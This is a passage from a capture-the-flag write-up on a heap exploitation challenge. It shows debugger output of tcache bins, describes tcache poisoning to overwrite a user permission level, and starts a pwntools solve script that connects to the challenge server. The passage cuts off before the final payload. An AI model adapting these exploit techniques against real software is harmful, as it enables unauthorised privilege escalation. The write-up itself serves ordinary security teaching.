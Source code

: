 ```console
 -> Chunk(addr=0x560c41f0d5e0, size=0x90, flags=PREV_INUSE, fd=0x000560c41f0d, bk=0x6ee603c65e3f27c0)
tcachebins[idx=15, size=0x110, @0x560c41efb108] count=1
 -> Chunk(addr=0x560c41f0d6b0, size=0x110, flags=PREV_INUSE, fd=0x000560c41f0d, bk=0x6ee603c65e3f27c0)
[+] Found 8 chunks in tcache.
------------------------------------ Fastbins for arena 'main_arena' ------------------------------------
[+] Found 0 chunks in fastbin.
gef> p $rax - 0x10
$1 = 0x560c41f0d4f0
```

Now that we received a chunk at `0x560c41f0d4f0`, while this chunk exists on
`tcachebins`, we could perform tcache poisoning to allocate a chunk where
we could overwrite our user permission level.

### Final Solve Script

```python
#!/usr/bin/env python3

# type: ignore
# flake8: noqa

from pwn import *

elf = context.binary = ELF("./app", checksec=False)


def start(argv=[], *a, **kw):
    nc = "nc chall.glacierctf.com 13373"
    nc = nc.split()
    host = args.HOST or nc[1]
    port = int(args.PORT or nc[2])
    if args.REMOTE:
        return remote(host, port)
    else:
        args_ = [elf.path] + argv
        if args.NA:
            args_ = ["setarch", "-R"] + args_
        return process(args_, env=env, *a, **kw)


def create(rating: bytes):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"rating\n> ", rating)


def delete(idx):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"remove?\n> ", str(idx).encode())


def show():
    io.sendlineafter(b"> ", b"3")


def scream(aaa: bytes):
    io.sendlineafter(b"> ", b"4")
    io.sendlineafter(b"content!\n", aaa)


def admin():
```